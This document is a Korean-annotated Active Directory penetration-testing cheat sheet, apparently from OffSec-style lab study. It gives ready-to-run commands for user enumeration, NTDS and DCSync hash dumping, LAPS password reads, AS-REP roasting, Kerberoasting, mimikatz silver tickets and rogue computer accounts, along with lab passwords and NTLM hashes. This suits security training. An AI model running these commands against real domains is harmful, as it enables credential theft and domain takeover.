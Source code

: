 # Enumeration
```bash
netexec smb [ip] -u guest -p '' --rid-brute

./kerbrute_linux_amd64 userenum --dc 192.168.133.40 -d haero /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

./enum4linux <ip>
```
---
# Impacket secretsdump
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```
- `-system SYSTEM` : `C:\Windows\System32\config\SYSTEM`
- `LOCAL` : ntds.dit와 SYSTEM 파일을 로컬에서 분석
---
# LDAP
```bash
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.160.122" "(objectclass=*)"
ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -h 192.168.120.108 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```
- `-x` : 기본 SASL 인증 대신 간단한 익명 또는 아이디-비밀번호 기반 인증을 사용
- `-b` :  LDAP 검색을 시작할 루트 경로를 의미. `DC=hutch,DC=offsec` → `hutch.offsec` 도메인을 의미
- `"(objectclass=*)"` : 모든 객체(Object)를 가져오라는 의미
---
# AS-REP Roasting
``` bash
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hash corp.com/pete
```

-   **-dc-ip** : 도메인 컨트롤러(DC)의 IP 주소를 지정.
-   **-request** : 실제로 AS-REP 요청을 보내 티켓을 가져옴.
-   **-outputfile** : 덤프한 해시를 저장할 파일 이름.
-   **corp.com/pete** : 대상 도메인/사용자 계정.

``` powershell
.\Rubeus.exe asreproast /nowrap
```

-   **asreproast** : AS-REP Roasting 공격 수행 모드.
-   **/nowrap** : 해시가 여러 줄로 나뉘지 않고 한 줄로 출력되도록 설정.
---
# Kerberoasting
``` powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

-   **kerberoast** : Kerberoasting 공격 수행 모드.
-   **/outfile** : 수집한 해시를 저장할 파일 지정.

``` bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

-   **-request** : SPN에 대해 실제 TGS 요청을 전송.
-   **-dc-ip** : 도메인 컨트롤러 IP.
-   **corp.com/pete** : 인증에 사용할 도메인/사용자.
---
# Silver Tickets
``` powershell
.\mimikatz.exe

privilege::debug

sekurlsa::logonpasswords

whoami /user

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 '
/domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

klist

iwr -UseDefaultCredentials http://web04
```

-   **privilege::debug** : Mimikatz에서 SYSTEM 권한 디버그 권한 획득.
-   **sekurlsa::logonpasswords** : 현재 로그인된 세션에서 자격 증명
    덤프.
-   **whoami /user** : 현재 사용자 SID 확인.
-   **kerberos::golden** : 골든/실버 티켓 생성 명령.
    -   **/sid** : 도메인 SID 지정.
    -   **/domain** : 도메인 이름.
    -   **/ptt** : 생성한 티켓을 즉시 메모리에 삽입(Pass-the-Ticket).
    -   **/target** : 공격 대상 서비스 호스트.
    -   **/service** : 서비스 이름 (예: http, cifs 등).
    -   **/rc4** : 서비스 계정의 NTLM 해시.
    -   **/user** : 티켓에 삽입할 사용자 이름.
-   **klist** : 현재 메모리에 로드된 티켓 확인.
-   **iwr -UseDefaultCredentials** : 티켓을 이용해 웹 요청.
---
# Domain Controller Synchronization
``` powershell
.\mimikatz.exe

lsadump::dcsync /user:corp\Administrator
```

-   **lsadump::dcsync** : AD 복제 프로토콜을 악용하여 사용자 해시 요청.
-   **/user** : 대상 사용자 계정 지정.

``` bash
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023!"@192.168.50.70
```

-   **-just-dc-user** : 특정 사용자만 복제 요청.
-   **corp.com/jeffadmin** : 인증에 사용할 도메인/계정.
-   **패스워드** : 계정 암호.
-   **@192.168.50.70** : 도메인 컨트롤러 IP.

---
# CrackMapExec LDAP + BloodHound
```bash
cme ldap hokkaido-aerospace.com -u 'hrapp-service' -p 'Untimed$Runny' --bloodhound -c all -ns 192.168.94.135
```

- Linux/Kali 등에서 바로 실행 가능. LDAP 기반으로 대부분의 정보를 수집 가능하므로 SharpHound을 직접 업로드하지 않아도 됨.

1. **`cme ldap hokkaido-aerospace.com`**
    - `ldap`: LDAP 프로토콜을 사용하여 도메인 컨트롤러와 상호작용.
    - `hokkaido-aerospace.com`: 대상 도메인 이름.

2. **`--bloodhound`**
    - CME의 BloodHound 모듈 활성화.

4. **`-c all`**
    - BloodHound 모듈에서 실행할 **collector 옵션**을 지정.
    - `all` → 모든 수집기를 실행 (유저, 그룹, 컴퓨터, ACL, 세션 등).

4. **`-ns 192.168.94.135`**
    - `-ns`: 사용할 DNS 서버 지정 옵션.
    - `192.168.94.135`: DNS 서버의 IP 주소, 보통 도메인 컨트롤러
---
# Blood Hound Python
```bash
bloodhound-python -u "hrapp-service" -p 'Untimed$Runny' -d hokkaido-aerospace.com -c all --zip -ns 192.168.208.40
```
---
# Add Computer
```bash
impacket-addcomputer ignite.local/geet:Password@1 -computer-name fakepc -computer-pass Password@123 -dc-ip 192.168.1.14
```
---
# linux ticket environment
```bash
export KRB5CCNAME=./Administrator.ccache
```
